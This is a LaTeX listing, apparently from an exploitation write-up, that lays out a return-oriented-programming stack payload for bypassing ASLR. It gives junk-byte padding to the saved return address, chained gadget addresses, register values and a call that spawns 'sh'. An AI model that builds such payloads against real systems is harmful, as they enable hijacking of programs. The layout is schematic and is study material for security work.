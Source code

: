 \begin{lstlisting}[caption={ASLR exploit data},
label={lst:aslr_hex},
language=,
frame=single]
| 36 junk bytes to reach saved return
| printf@PLT address
| gadget D address
| "sh" address
| gadget D address
| 0xaaa99b60 ( new ebx )
| gadget A address
| gadget C address
| 0x03fc9c18 (new ebx )
| 0x01020101 (new esi)
| 0x01020102 (new edi)
| 4 junk bytes (new ebp)
| gadget B address
| 28 junk bytes 
| 0xaaa99b3c (new ebx)
| 4 junk bytes (new esi)
| 4 junk bytes (new edi)
| 4 junk bytes (new ebp)
| gadget A address
| printf@PLT address
| 0xffff2560 (new eax) for gadget B
| address of string "sh"
\end{lstlisting}

